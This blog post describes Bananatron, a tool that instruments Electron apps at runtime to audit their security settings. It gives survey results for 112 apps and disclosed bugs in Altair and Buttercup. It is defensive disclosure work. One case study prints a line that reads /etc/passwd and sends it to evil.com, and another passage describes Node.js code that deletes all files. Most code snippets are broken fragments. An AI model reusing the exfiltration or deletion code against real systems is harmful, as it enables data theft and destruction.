

Last fall, we built Bananatron, a black-box auditing framework for Electron apps. We used Bananatron to audit 112 popular Electron apps and discovered several real-world vulnerabilities. We also found that the overall landscape of Electron app security is overwhelmingly poor. A majority of apps enable insecure Electron features that automatically escalate common web vulnerabilities into catastrophic exploits, and few apps make use of all security protections that Electron provides.
This is a blog-ified version of a presentation we gave about Bananatron last December to a small audience.
Background
The web
It's necessary to first ensure a baseline background on the web platform. The primary languages are HTML, CSS, and JS (also WebAssembly). In contrast to the traditional desktop platform, it's built around a threat model such that websites are considered untrusted. For instance:
- The only programming languages usable by websites are (nominally) memory-safe.
- The APIs provided to websites are very limited. For instance, there is no web equivalent to
fopenorfreadin C. All file interactions go through restricted APIs and require user interaction. - The same-origin policy prevents unrelated websites from interacting with each other without explicit opt-in. This prevents evil.com from making requests to bank.com on your behalf.
- Due to the constant stream of security vulnerabilities in web browsers, all browsers run web content in a sandbox to reduce possible damage even in the event that a website has managed to achieve arbitrary code execution.
Node.js
Node.js allows using JavaScript outside of a browser. Unlike browsers, Node.js runs directly on the operating system and trusts the code being run. There is no same-origin policy, no sandbox, no restricted APIs. Any C function can be exported for use by Node.js.
For example, in just four lines of Node.js you can delete all the files on your computer:
'fs''/', ;
Haven't tested this but certainly would not recommend running it.
Electron
Electron is a framework for building desktop apps. It works by combining Node.js and Chromium, the open source parts of Google Chrome, into one big framework.
Electron is extremely popular. You probably have three Electron apps running right now. I am typing this in an Electron app. The popularity of Electron derives from it allowing developers to convert an existing website into a "native" desktop app with minimal effort. There are also a lot of frontend developers who have become intimately familiar with the web and find it a productive platform for development.
Electron apps are divided into the main process which runs trusted Node.js code, and renderer processes displaying web content using Chromium. For example in Discord, the window that you see is a Chromium renderer process running the same code as in the browser version of Discord. But you can close this window and Discord can still send you push notifications and appear in the system tray because the main Node.js process is still running in the background.
Electron offers many configuration options to developers, including whether to enable Chromium's sandbox, whether to enforce the same-origin policy, whether web content can use Node.js APIs directly, and what inter-process communication (IPC) APIs can be accessed.
Electron also supports preload scripts, which are scripts that a window will run before the rest of the web content will. Context isolation is an optional feature which runs the preload script in an isolated environment from web content. When context isolation is enabled, dangerous features such as IPC calls and Node.js integration (if enabled) are only available to the preload script. As long as the preload script only exposes APIs that are safe to use, context isolation can serve as a security boundary.
Node.js integration
Electron's Node.js integration allows web content to use Node.js APIs directly, without relying on IPC. This is inherently incompatible with sandboxing. For example, you can create a website with a button that deletes all your files:
Click me!
Node.js integration is also one of the most insecure options in the history of computing as these permissions are usable not just by the app's own scripts, but to any script that runs in the window. Most worryingly, if an attacker can achieve a cross-site-scripting (XSS) attack, as is extremely common in web apps, this vulnerability is automatically escalated to arbitrary code execution. Malicious code can simply use require('fs') and require('child_process') to run arbitrary executables and take over the computer.
Node.js integration is only tolerable in apps that use no remote content and accept no untrusted input. Most apps do not meet this criteria.
Secure IPC
The most "secure" way to design a button that deletes all your files is using IPC and a context-isolated preload script. This is a three step process.
First, the Node.js main process registers an IPC handler. The main process needs to validate that the sender is authorized to perform the requested action because the IPC message could come from any window or an iframe inside of a window.
;
'delete-everything',;
The app then configures the preload script for the web content to expose a wrapper method for invoking this IPC call.
;
'PreloadAPI', ;
The web contents would then use this exposed API to perform the requested operation instead of use Node.js directly. In this way, the web contents can remain sandboxed while still having access to Node.js' powerful APIs.
Click me!
This process is, unfortunately, a lot of work and is very easy to get wrong.
Inspectron
Inspectron is a tool for black-box Electron app auditing created by Ali et al.
Inspectron uses a "static" approach. They compiled 14 different versions of Electron with modified implementations for certain Electron APIs to add additional instrumentation (logging). They then take an existing Electron app, such as Discord, and replaced the original Electron library files with an equivalent version of Electron with the additional instrumentation installed. This instrumented Electron was used to analyze around 100 apps, and several vulnerabilities were identified and fixed.
As Inspectron relies on recompiling Electron, we say that Inspectron lives in the "implementation layer" as if Electron internals change, the Inspectron code will also need to change.
Bananatron
We created our own auditing tool called Bananatron. It is open source on GitHub.
We follow a similar idea to Inspectron of instrumenting Electron APIs to identify unsafe configuration. Our contribution is that we use a "dynamic" approach that does not involve recompiling Electron. We instead patch Electron APIs at runtime using JavaScript code before the application starts.
For instance, this is the code for Bananatron's instrumentation for shell.openExternal:
;
clonedElectron.shell.openExternal = ;
This overwrites the openExternal method that the application can see without breaking the function's contract.
Our approach lives in the API layer as if Electron's implementation of the API changes, Bananatron does not need to change. This is exemplified by Bananatron's having a single version that has been tested to work on Electron versions ranging from 0.35.6 to 33.2.0. During this time, Electron changed from CoffeeScript, to JavaScript, and later to TypeScript. This transition does not affect Bananatron. We extended the codebase to support more platforms, with more instrumentation, and a larger dataset of apps.
Through Bananatron, we identified two real-world vulnerabilities.
Example electron app
We will use a toy Electron app to better demonstrate how Bananatron works. This is a simple Electron app that will just open example.com in a new window. Note that this is intentionally done in an insecure way with Node.js integration enabled for demonstration purposes.
;
'ready',;
This produces:
Bananatron is comprised of three major components. The Bananatron injector accepts a path to an Electron app, then modifies the app's code to add code to the start of the app's main script:
try catch e
;
// ...
The injected code will run Bananatron's instrumentation module to install additional logging to the Electron API. A subset of the logs output by Bananatron are:
These logs are not particularly human-readable, so the Bananatron report generator (not yet open source) was created to ingest them and output a short report for humans:
"RiskyItems":
This tells us that the app has an insecure setting for Node.js integration, context isolation, sandbox, and the app also relies on external resources. At the very least, this request is performed using HTTPS instead of HTTP. This does not tell us that the app has a security bug that is practical to exploit, but it does mean the app's defenses are extremely poor.
Our dataset
We ran Bananatron on 112 apps. In total, we had a 98.2% success rate in instrumenting apps. Apps were audited on Windows, macOS, and Linux as Bananatron is cross-platform.
There were two failure cases:
- Figma seems to use a bespoke integrity checking system. This system is separate from Electron's builtin integrity checking fuse which Bananatron is able to unflip.
- Advanced REST Client uses ESM modules in the Node.js main process, however the Node.js version of the bundled Electron is too old to support the API we use for dynamically replacing ESM modules with an instrumented version. There might be another way to implement this, but it was not deemed worthwhile.
Through our dataset, we can analyze the security of Electron apps broadly and specifically.
Electron versions
Electron currently releases a new major version every 8 weeks. The 3 most recent major versions of Electron receive a series of patch updates including bug fixes and security updates.
We found that 60% of apps use a major version of Electron that is not receiving security updates. At the time of analysis (November 2024), the supported versions were Electron 31, 32, and 33.
More worrying, 79% of apps were missing more than two months of Electron security updates. This is in part because Electron is shipped as a static dependency of each app, so every app needs to release their own update to include the latest fixes. Few apps seem to bother.
Here is the full data in a simple graph: (or in a CSV: electron-versions.csv)
Recall that only the 3 major versions on the right are even receiving updates. There is a significant long tail of apps using old versions of Electron.
Electron web preferences
Electron lets apps choose whether the Chromium sandbox should be enabled to protect against malicious content even in the process of a bug in the renderer process that allows malicious code execution. 70% of apps disable the sandbox.
Context isolation provides a security boundary between the preload script and the web content. 54% of apps disable context isolation.
Node.js integration has been previously discussed and is a significant security risk. 50% of apps enable Node.js integration.
Electron allows apps to disable the same-origin policy and other web security systems. 11% of Electron apps disable web security entirely. It's also noteworthy that disabling the same-origin policy in Electron also allows the web content to read any file by making requests to file://, so the impact of this is far worse than just disabling the same-origin policy.
Case study: Altair
Altair is a desktop app for making GraphQL queries built using Electron. GraphQL is a query language for graph databases. It is supported by large companies such as Facebook and GitHub. Requests will often contain a private token or API key to authenticate the request.
When Altair v8.0.3 was instrumented with Bananatron, the report generator found:
The scary item is CertificateErrorHandler, which indicates that the app has registered custom behavior for handling HTTPS certificate errors. Bananatron also logged the handler's code for additional review:
'certificate-error',
;
This disables HTTPS certificate validation entirely.
Any attacker with a man-in-the-middle on your network can abuse the lack of HTTPS certificate validation to read all request parameters, including private API keys, by intercepting the connection and responding with a self-signed certificate. While Altair does show a warning when this happens, this is too little too late as the attack has already completed.
The attacker can also interfere with Altair's in-app payment system as it works by making a request from the web content to get a checkout URL to then open in the default browser. An attacker can intercept this and return their own URL to create an extremely convincing phishing page. After all, the checkout page was opened by the app, and there would be no reason to distrust the app. (The phishing page would be displayed in the browser so it would need a real HTTPS certificate, but the attacker can choose which URL to visit and obtaining an HTTPS certificate is trivial in 2025)
This bug was reported to Altair and fixed in v8.0.5. The bug was assigned CVE-2024-54147.
Case study: Buttercup
Buttercup is a password manager built using Electron. Passwords are stored in an encrypted database. Because the database is encrypted, it is reasonably safe to upload it to cloud storage, so the app has built-in support for providers such as Dropbox and Google Drive.
When Buttercup v2.28.1 was instrumented with Bananatron, the report generator found:
,
This is a lot of warnings for a password manager, but of particular interest is WebPreferences:webSecurity which means the app disables web security (such as the same-origin policy) for at least one window. By examining the source code, we found that the Dropbox login process was responsible for this warning. Effectively, the code does:
;
"https://dropbox.com/login";
Because disabling the same-origin policy in Electron also allows reading arbitrary files, this effectively grants Dropbox the ability to read any file on your computer by simply making a request to the file:// protocol:
'file:///etc/passwd'
'https://evil.com/' + text;
This permission could be abused by dropbox.com as well as any page it redirects to, such as SSO providers.
While it is fair to consider one's storage provider and one's SSO provider to be reasonably trustworthy and unlikely to be actively malicious, we still consider this a violation of the threat model of an encrypted password manager. After all, if the storage provider were truly completely trustworthy, there would be no reason to encrypt the password database at all.
We reported this bug to Buttercup several times without response. During the time since the original version of this presentation, the Buttercup project has been closed so this bug is unlikely to be fixed.
Conclusion
The overall security landscape of Electron apps is very poor with a vast majority of apps disabling sandboxing, and half of apps enabling Node.js integration. Hopefully, this can be improved over time, although the trend line extrapolating from the Inspectron dataset and the Bananatron dataset is flat at best.
Of course, we did also analyze the Electron app I build (TurboWarp Desktop). TurboWarp has been following the Electron security guidelines for years, so the report is relatively short:
,
There is still some room for improvement, most notably the outdated Electron version (we already updated), but at least the most worrying settings such as Node.js integration are nowhere to be seen. Some of these, such as CSP (missing Content-Security-Policy) and ExternalShellRisk (usage of shell.openExternal) are not actionable due to functionality requirements while others, such as IPCMessagesUnchecked (not reading senderFrame), are only present due to (fixable) limitations in the instrumentation.
We are confident we could have found more real security bugs in our dataset given more time. Hopefully, we get can back to that soon :)